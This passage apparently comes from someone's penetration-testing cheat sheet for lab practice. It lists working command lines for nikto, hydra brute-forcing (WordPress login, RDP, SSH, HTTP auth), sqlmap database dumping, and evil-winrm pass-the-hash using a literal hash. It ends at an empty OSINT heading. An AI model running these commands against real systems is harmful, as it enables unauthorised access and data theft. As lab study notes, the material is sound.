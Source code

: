 fuzzing directory with basic authemtication

```bash
nikto -h <ip> -port <port> -id <user>:<password>
```



### hydra

```bash
hydra -P <wordlist> -v <ip> <protocol>
```

- POST from burpsuite

  ```bash
  hydra -l <username> -P .<password list> $ip  http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:loginError'
  ```

- Windows Remote Desktop

  ```bash
  hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>
  ```

- SSH

  ```bash
  hydra -l admin -P ../../Tools/wordlists/rockyou.txt ssh://10.10.20.207
  ```

- Http authentication

  ```bash
  hydra -l <username> -P /usr/share/wordlists/rockyou.txt <IP> -s <port> http-get
  ```

  

### SQLMap

intercept a request with Burpsuite, and save to .txt file. burp suite

```bash
sqlmap -r <file>.txt --dbms=mysql --dump
```

### Evil-WinRM

use hash to gain shell

```bash
evil-winrm -i 10.10.163.204 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```



# OSINT

### fuff
